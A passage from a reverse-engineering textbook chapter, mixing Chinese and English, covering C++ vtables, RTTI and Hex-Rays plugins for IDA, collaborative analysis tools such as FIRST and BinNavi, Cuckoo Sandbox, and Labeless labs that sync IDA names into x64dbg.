	mov	esp, ebp
	pop	ebp
	retn	4
demo	endp
```

```
; int	__cdecl main(int argc,const char **argv,const char *envp)
__main	proc near

x	= dword ptr -8
e	= byte ptr -4
argc	= dword ptr 8
argv	= dword ptr 0Ch
envp	= dword ptr 10h

	push	ebp
	mov	ebp, esp
	sub	esp, 8
	push	3
	lea	ecx, [ebp+e]	; address of e loaded into ecx
	call	demo	; demo must be a member function
	mov	[ebp+x], eax
	mov	esp, ebp
	pop	ebp
	retn
__main	endp
```

由于 Borland 和 g++ 将 this 作为常规堆栈参数传递，它们的代码往往更像传统编译的 C 代码，并不立即显得是编译后的 C++ 代码。

## C++ 虚表

虚表（或称 vtables）是 C++ 中虚函数和多态性的底层机制。对于包含虚成员函数的每个类，C++ 编译器都会生成一个名为 vtable 的指针表，该表包含类中每个虚函数的一个条目，编译器会用指向虚函数实现的指针填充每个条目。重写任何虚函数的子类会获得其自身的 vtable。编译器会复制超类的 vtable，并用指向相应子类实现的指针替换任何被重写函数的指针。以下是超类和子类 vtable 的示例：

```
SuperVtable   dd offset func1       ; DATA XREF: Super::Super(void)
                  dd offset func2
                  dd offset func3
                  dd offset func4
                  dd offset func5
                  dd offset func6
SubVtable     dd offset func1       ; DATA XREF: Sub::Sub(void)
                  dd offset func2
                  dd offset sub_4010A8
                  dd offset sub_4010C4
                  dd offset func5
                  dd offset func6
```

如您所见，子类重写了 func3 和 func4，但从其超类继承了其余虚函数。vtables 的以下特征使其在反汇编清单中非常显著：

- vtables 通常位于二进制文件的只读数据节中。
- vtables 仅从对象构造函数和析构函数中直接引用。
- 通过检查 vtables 之间的相似性，您可以理解 C++ 程序中类之间的继承关系。
- 当类包含虚函数时，该类的所有实例都会将指向 vtable 的指针作为对象中的第一个字段。此指针在类构造函数中初始化。
- 调用虚函数是一个三步过程。首先，必须从对象中读取 vtable 指针。其次，必须从 vtable 中读取相应的虚函数指针。最后，可以通过检索到的指针调用虚函数。

## PythonClassInformer

运行时类型信息（RTTI）是一种 C++ 机制，用于在运行时公开有关对象数据类型的信息。RTTI 仅为多态类（即具有虚函数的类）生成。在逆向工程 C++ 代码时，RTTI 提供了有关类名称、继承和类布局的有价值元数据。不幸的是，IDA 默认不会解析此对象，但有几个可用的插件可以使用必要元数据对 IDB 进行注释，并可视化类继承。

PythonClassInformer 通过在 IDA 中提供类层次图，改进了 IDA 插件（如 ClassInformer¹）的传统 RTTI 解析功能。类层次结构的可视化有助于您理解类之间的关系，尤其是在处理复杂的 C++ 代码时。

要在 IDB 上应用 PythonClassInformer RTTI 注释，请通过选择“文件 | 脚本文件”或按 ALT-F7 运行 classinformer.py 文件。分析完成后，将出现类似于图 4-5 所示的类图窗口，其中包含已恢复的类（如果文件包含 RTTI 信息）。



图 4-5 PythonClassInformer 类图对象层次示例

## HexRaysCodeXplorer

HexRaysCodeXplorer 是最早展示在 IDA Hex-Rays 反编译器之上构建插件的强大功能和能力的插件之一。Hex-Rays 抽象语法树（AST），称为“ctree”，为开发者提供了一种结构，可用于操作反编译器输出，并在此数据之上执行额外的修改传递（例如，去混淆或类型分析）。

HexRaysCodeXplorer 在 Hex-Rays 之上实现了以下功能：

- 显示 Ctree 图 显示当前反编译函数的 Hex-Rays ctree 图。
- 对象资源管理器 与 PythonClassInformer 类似，此视图将解析 RTTI 信息并列出所有已识别的 vtables，以及它们的名称和方法计数。但是，与 PythonClassInformer 不同，它不会在反汇编视图中命名 vtables。通过对象资源管理器视图公开的一个有用功能是“创建 VTBL_struct”，它会自动创建 IDA 结构，并将元素命名为与 vtable 函数名称相同的名称。
- 将类型提取到文件 将所有类型信息保存到当前 IDB 目录中的 types.txt 文件。
- 将 Ctrees 提取到文件 将 ctree 保存到文本文件。
- 跳转到反汇编 提供 Hex-Rays 中未直接公开的一个有趣功能，允许导航到反汇编视图中的汇编指令。


来自关联的反编译代码行。请注意，然而，这并非精确的一对一映射，因为通常多条汇编指令与一行反编译的 C 代码相关联。

## 协作分析

逆向工程中的协作与信息文档是一个有趣却常被忽视的话题。当你处理一个复杂的逆向工程目标时，通常会有多个人同时查看它。多年来，人们已经做出了多次尝试并采用了各种方法来实现高效的协作工作流。以下是值得注意的 IDA 插件及其使用 IDA 进行协作的方法的时间线：

- IDA Sync 由 Pedram Amini 开发的插件，使用客户端/服务器架构。客户端连接到服务器，使用特定插件快捷键对 IDB 所做的所有更改都会立即传输到其他客户端。服务器保留更改的副本并使其可供新客户端使用。该插件不再积极开发，最后更新是在 2012 年。

- CollabREate 由 Chris Eagle 和 Tim Vidas 开发的插件，提供与 IDA Sync 类似的功能，但改进了对客户端监控和共享的不同操作的支持。它的工作方式类似于软件版本控制和修订控制系统，因为它允许用户上传和下载对 IDB 所做的更改，还可以将 IDB 标记分叉到新项目。

- BinCrowd 由 Zynamics 开发的插件，采用不同的协作方法。与前两个插件不同，BinCrowd 不是为在同一 IDB 上进行主动协作而设计的。相反，它构建了一个带注释的函数数据库，该数据库可以重用于共享部分函数的许多不同样本。它使用模糊匹配来查找相似函数，并重命名 IDB 中匹配的函数。客户端工具作为开源插件发布，但服务器组件从未发布，项目已停止。

- IDA Toolbag 由 Aaron Portnoy、Brandon Edwards 和 Kelly Lum 开发的插件。该插件提供有限的协作功能，主要用于共享使用该插件所做的注释。不幸的是，该插件不再积极开发。

- CrowdRE 由 CrowdStrike 开发的插件，是 BinCrowd 插件的重生版。与其他提到的插件不同，该插件未开源。该 IDA 插件与 CrowdStrike 服务器绑定，后者提供函数匹配服务。这种基于服务的方法可能不吸引那些不希望与第三方共享其样本或 IDB 信息的研究人员，因此在使用该插件之前，建议您阅读 EULA。

- FIRST 由 Cisco TALOS 开发的插件，提供与 CrowdRE 和 BinCrowd 类似的功能，但与它们不同的是，FIRST 还提供运行私有存储库的功能。该插件正在积极开发和维护。

- BinNavi 面向漏洞研究人员和恶意软件分析师的逆向工程反汇编器前端。BinNavi 支持协作分析工作流以及逆向工程中间语言 (REIL) 用于编写平台无关的分析。

### 使用 FIRST 利用协作知识

顾名思义，FIRST（函数识别和恢复签名工具）提供管理带注释函数数据库并执行相似性查找的功能。协作方面通过允许每个人共享其函数名称以及查询存储库以获取模糊函数匹配来实现。作者已索引一个众所周知的库函数名称库（如 OpenSSL）以及来自泄露恶意软件（如 Zeus）的函数名称。

虽然它不像 CollabREate 那样提供真正的协作体验，但 FIRST 插件确实允许在同一二进制文件上工作的分析师从中央存储库推送和拉取函数名称。然而，FIRST 的真正威力在于能够跨不同二进制文件重用函数名称，并利用旧数据来识别和重命名相似功能。通过增长函数存储库，您可以更轻松地跟踪恶意软件家族或识别分析样本中静态链接的常见库，从而大大减少理解代码功能所需的时间。

插件安装非常简单，并在 FIRST 网站上有详细文档。² 一旦插件在 IDA 中安装，可以通过按 1 或选择编辑 | 插件 | FIRST 来调用。生成的对话框包含一个配置部分，需要填充 FIRST 服务器信息，该信息可以是位于 first-plugin.us 端口 80 上的公共 FIRST 服务器，也可以是您决定自行运行的自定义服务器。对服务器的身份验证使用在 http://first.talosintelligence.com/ 注册后可用的 API 密钥完成。以下是典型的 FIRST 工作流：

- 1. 在 IDA 中打开新二进制文件后，在开始手动分析之前，您会希望尽可能多地为函数添加名称和原型。在反汇编窗口的任意位置右键单击并选择查询 FIRST 的所有函数匹配，如下所示。


- 2. 在"检查所有函数"菜单中，您应首先通过选择仅显示“sub_”函数筛选器来筛选所有已命名的函数。这可确保 IDA 数据库中的任何已命名函数不会被 FIRST 覆盖。另一个方便的选项是使用按最高排名匹配函数作为默认选择标准，然后手动审查结果，如果备选方案更合理，则删除或更改所选函数。

在决定带有多个匹配项的函数名称时，应考虑以下几个参数：

- 排名 此社交流行度指标显示特定名称被 FIRST 用户选择和应用的次数。这不是一个非常高质量的指标，但确实能提供其他用户认为良好名称的见解。
- 相似度 此指标显示查询函数与匹配结果之间的相似度百分比。
- 原型 这是匹配结果的函数原型。在有多个相似度接近的结果的情况下，考虑原型定义更好的函数很有用，因为这将改进 IDA 的分析并因此产生更好的注释。



- 3. FIRST 分析完成后，最佳做法是通过在先前显示的上下文菜单中选择向 FIRST 添加多个函数，将所有函数名称上传回 FIRST 数据库。上传所有已命名函数的最简单方法是在批量函数上传对话框中选择筛选出“sub_”函数筛选器和全选筛选器，如下所示。



- 4. 您可以从 FIRST 插件菜单的管理部分中管理上传的函数元数据，在此部分可以查看每个上传函数的历史记录，并在必要时将其删除。

### 与 BinNavi 协作

复杂程序的反汇编清单可能难以跟踪，因为程序清单本质上是线性的，而程序由于执行的所有分支操作而非常非线性。BinNavi（Binary Navigator 的缩写）由 Zynamics（现为 Google）开发，是一个用于二进制文件图形分析和调试的开源工具。BinNavi 在 IDA Pro 生成的数据库和 fREdom（基于 Capstone Engine 的反汇编器后端）等反汇编器后端之上运行。BinNavi 通过利用*邻近浏览*的概念，为二进制文件提供复杂的图形化视图，以防止显示过于杂乱。BinNavi 图形严重依赖*基本块*的概念，基本块是一组指令序列，一旦进入，保证将完整执行。任何基本块中的第一条指令通常是跳转或调用指令的目标，而基本块中的最后一条指令通常是跳转或返回。基本块为对指令进行分组提供了一种便捷的方法


together in graph-based viewers, because each block can be represented by a single node within a function’s flow graph. Figure 4-6 shows a selected basic block and its immediate neighbors.



Figure 4-6 Sample BinNavi display

The selected node has a single parent and two children. The proximity settings for this view are one node up and one node down. The proximity distance is configurable within BinNavi, allowing users to see more or less of a binary at any given time. Each time a new node is selected, the BinNavi display is updated to show only the neighbors that meet the proximity criteria. The goal of the BinNavi display is to decompose complex functions sufficiently to allow analysts to comprehend the flow of those functions quickly.

BinNavi provides a true collaborative experience because all analysts working on the same database project get real-time updates of all comments and project changes, along with information about the users who made them. The following four comment types are supported:

- Global line comments Similar to repeatable function comments in IDA, global line comments will be visible in all instances (basic blocks) where that line appears.
- Local line comments Similar to nonrepeatable comments in IDA, local comments are visible only in the specific basic block where they are defined.
- Node comments This type of comment is visualized in its own block and is attached to a specific basic block or block group.
- Function comments Similar to repeatable function comments in IDA, function comments are associated with a function and will appear in all calls to the specific function.

Figure 4-7 shows how two comments from different users are visualized in the disassembly view.



Figure 4-7 BinNavi collaboration comments (BinNavi_collaboration.png)

## Dynamic Analysis

Reverse engineering to determine the full functionality of a binary is the ultimate form of static analysis—but there's another way to approach it. Dynamic analysis can provide a valuable head start in understanding what the malware binaries are designed to do. With this approach, you run malware in a sandbox where the binaries execute in a safe environment and extract desired file-system or network artifacts.

Dynamic analysis jumpstarts your reverse engineering efforts with rapid “first pass” information that reveals immediately what the binaries are trying to do. You can then drill down into how they’re doing it with your other reverse engineering tools. This can save you a lot of time: you might not even need to undertake a full manual reverse engineering effort once you have the information from the dynamic analysis.

## Automated Dynamic Analysis with Cuckoo Sandbox

In 2017, the AV-TEST Institute registered around 20 million unique malware samples per day. The number has been growing steadily year over year for the last 10 years and is expected to keep growing.

Automated file analysis systems provide malware researchers with a templatized report of the observed file behavior. The automation is a key aspect of scaling the time-consuming manual analysis efforts. Automated analysis reports help researchers tackle the following issues:

- Identification of interesting files that require deeper and more time-consuming manual analysis by surfacing new observable artifacts not seen before.
- Clustering of new samples to existing threat families based on observable artifacts, which helps identify new malware families or the evolution of existing families.
- Overview of the malware functionality without using any of the reverse engineering tools. This helps analysts have a good overview of file functionality and concentrate their analysis efforts on the specific task at hand (for example, documenting the C2 protocol).

Cuckoo Sandbox is an advanced, extremely modular, and open source automated malware-analysis system with various applications. By default, it is able to do the following:

- Analyze many different types of malicious files (executables, Office documents, PDF files, e-mails, and so on) as well as malicious websites under the Windows, Linux, macOS, and Android virtualized environments.
- Trace API calls and general behavior of the file and distill this into high-level information and signatures that are comprehensible by anyone.
- Dump and analyze network traffic, even when encrypted with SSL/TLS, using native network routing support to drop all traffic or route it through INetSIM, a network interface, or a virtual private network (VPN).
- Perform advanced memory analysis of the infected virtualized system using the memory forensics tool Volatility³, as well as using YARA⁴ scanning of a process memory.

Another very convenient outcome of releasing a project as open source is that there are several online instances of Cuckoo running and available to process files. For analysts who are dealing with public samples, this is the simplest way to get the analysis for free and without the hassle of running and maintaining Cuckoo instances. Here are some of the well-known online Cuckoo instances:

- https://sandbox.pikker.ee
- https://zoo.mlw.re/
- https://linux.huntingmalware.com/
- https://malwr.com/

The Cuckoo interface is divided into multiple categories, which are themed around typical malware analysis objectives such as the following:

- Summary General overview of the file format metadata (file size, type, hashes, and so on), matched YARA signatures, a list of important execution artifacts (service or task creation, network communication, and so on), screenshots, and a list of contacted domains and IP addresses
- Static analysis Summary of the specific file format metadata, such as PE headers, imported and exported APIs, and PEiD signatures to identify packers
- Behavioral analysis Process tree with the analyzed sample as the root node, along with the list of called APIs with their respective arguments
- Network analysis List of network connections grouped by protocol
- Dropped files Static file metadata for all files written to disk by analyzed sample
- Process memory A snapshot of process memory that can be downloaded to examine any unpacked or injected code.

Cuckoo successfully merges static and dynamic analysis results and presents a holistic picture about the capability and functionality of a malicious file. By automatically processing files, analysts can reduce the manual work of collecting the needed data to understand the threat or make informed decisions about the maliciousness of the files. By automating repeatable work, analysts can spend more time researching and discovering new malicious techniques.

## Bridging the Static-Dynamic Tool Gap with Labeless

Static and dynamic analysis tools both have their respective strengths and weaknesses. Depending on the specific task at hand, or analysts’ respective preferences for tools, one might need to use several tools during a single analysis project. A common reverse engineering setup involves using a static analysis tool like IDA together with a debugger of choice on the target OS platform (for example, x64dbg on Windows).

The issue with a multitool setup, however, is that annotated information from one tool is difficult to integrate with the other tools, thus resulting in some duplicate work and slower analysis speed. Especially when you’re using a function-renaming and IDB annotation IDA plug-in like FIRST or IDAscope, it helps to have this metadata available in the debugger.

Enter Labeless, which is described by its authors as “a plugin system for dynamic, seamless and realtime synchronization between IDA Database and debug backend.”⁵ Currently, the following Labeless debug back ends are supported:

- OllyDbg 1.10
- OllyDbg 2.01
- DeFixed 1.10
- x64dbg (x32 and x64 versions)

Setting up Labeless is a painless process that requires copying the precompiled plug-in to the IDA plug-ins directory and running one of the supported debuggers, which are packaged together with the Labeless release archive.

Following is a typical reverse engineering workflow that showcases Labeless’s usefulness:

1. Open the reverse engineering target in the IDA disassembler to get a basic idea of the code complexity.
2. Fetch the function annotations from the community using the FIRST plug-in.
3. Identify the function or functionality that would benefit from dynamic analysis.

## Lab 4-1: Applying IDA Annotations to x64dbg Debugger

To start this lab, open the x64dbg.exe binary, located in the Labeless release package under the x64dbg folder, in both IDA and x64dbg. The following snippet is the start function (entry point) disassembly, as shown by IDA:

```
public start
start proc near
sub     rsp, 28h
call    __security_init_cookie
add     rsp, 28h
jmp     __tmainCRTStartup
start endp
```

IDA FLIRT (Fast Library Identification and Recognition Technology) signatures matched the cookie initialization __security_init_cookie and CRT startup __tmainCRTStartup and named them accordingly. At the same time, the x64dbg disassembly looks more raw and lacks any annotations, as visible from the following snippet:

```
00007FF6E96F23F8 | 48 83 EC 28      | sub rsp, 28
00007FF6E96F23FC | E8 0F 05 00 00   | call x64dbg.7FF6E96F2910
00007FF6E96F2401 | 48 83 C4 28      | add rsp, 28
00007FF6E96F2405 | E9 02 00 00 00   | jmp x64dbg.7FF6E96F240C
```

You can port all available annotations from IDA quickly by following these steps:

1. Open the target binary in IDA and the supported debugger (for example, x64dbg).
2. Find out the module base address in the debugger by opening the Memory Map window (ALT-M in x64dbg and OllyDbg). The module’s base address will appear on the same line as the target binary (for example, test.exe if the debugged binary is named test.exe in the file system).


3. 在 IDA 工具栏中，选择 Labeless | 设置。在显示的对话框中（如图 4-8 所示），更改以下选项：



图 4-8 Labeless 配置设置窗口

- a. 在“远程模块基址”字段中输入上一步找到的模块基址。
- b. 在“同步标签”部分，选择除“函数名作为注释”以外的所有选项。这更多是个人偏好，但如果将函数名直接注释在反汇编代码中，而不是写成注释，通常更容易阅读反汇编。
- c. 启用“重命名时自动同步”选项。
- d. 单击“测试连接”按钮，确保 IDA 与调试后端之间的连接正常工作。

4. 在 IDA 工具栏的 Labeless 下，运行“立即同步标签”选项或使用 ALT-SHIFT-R 热键，将 IDA 的所有注释应用到调试后端。

名称传播到调试后端后，调试器的反汇编列表将与 IDA 的非常相似，并且 IDA 中的所有后续重命名都会自动传播到调试器视图。以下是在应用 IDA 名称后 x64dbg 中的反汇编列表：

```
00007FF6E96F23F8 | 48 83 EC 28 | sub rsp,28
00007FF6E96F23FC | E8 0F 05 00 00 | call <x64dbg.__security_init_cookie>
00007FF6E96F2401 | 48 83 C4 28 | add rsp,28
00007FF6E96F2405 | E9 02 00 00 00 | jmp <x64dbg.__tmainCRTStartup>
```

## 实验 4-2：将调试器内存区域导入 IDA

处理加壳程序或内存注入恶意软件时，Labeless 另一个有用的功能是能够将内存段从调试器导回 IDA。Labeless 支持两种主要工作流来结合静态分析和动态分析：

- 从 IDA 的静态分析会话开始，分析人员希望通过使用调试器进行动态执行，来加深对目标应用程序特定内部工作原理的理解。
- 从动态分析开始，分析人员希望利用 IDA 注释来丰富调试体验，并将额外的运行时解码/解密代码导入 IDA。

虽然第一种工作流已讨论过，但第二种也不应被忽视。在分析混淆或内存注入恶意软件时，能够以更持久的方式（例如 IDA 数据库）保留执行状态和内存非常有用。

Labeless 有两个内存导入选项：

- 全部擦除并导入 此选项会从当前 IDB 中删除所有段，并从调试器导入选定的内存页。
- 保留现有并导入 与前一个选项不同，此选项会保持当前 IDB 不变，仅从调试器导入其他内存页。

第二种导入选项解决了更常见的场景：使用来自调试器的其他内存页扩展当前数据库。当你从 IDA 工具栏中选择 Labeless | IDADump | 保留现有 菜单选项并导入时，将出现一个“选择要转储的内存”窗口，列出调试进程中的所有映射内存页。要导入内存，你可以从列表中选择一个或多个内存区域，或定义所需的虚拟地址范围。

通过高效地结合静态和动态分析工具，并利用各自的优势，分析人员可以同时获得两者的好处，而不必牺牲易用性。

## 总结

高度活跃的逆向工程社区不断发展用于分析各种文件格式以实现不同分析目标的工具和技术。有时，有趣的工具和研究可能会被遗漏，并在这个活跃的社区中不公平地被忽视。本章介绍了一些相对较新的工具和插件，如果有机会使用，可能会显著提高你的分析信心和速度。

## 延伸阅读

- BinCrowd IDA 插件 code.google.com/p/zyanmics/source/checkout?repo=bincrowd-plugin
- BinNavi www.zyanmics.com/binnavi.html
- CollabREate IDA 插件 sourceforge.net/projects/collabreate/
- CrowdDetox IDA 插件 github.com/CrowdStrike/CrowdDetox
- CrowdRE IDA 插件 www.crowdstrike.com/crowdre/downloads/
- funcap IDA 插件 github.com/deresz/funcap
- Hexrays_tools IDA 插件 www.hex-rays.com/contests/2013/hexrays_tools.zip
- HexRaysCodeXplorer IDA 插件 github.com/REhints/HexRaysCodeXplorer
- IDA 插件竞赛 www.hex-rays.com/contests/index.shtml
- IDA Pro FindCrypt www.hexblog.com/?p=27
- IDA Pro FindCrypt2 www.hexblog.com/?p=28
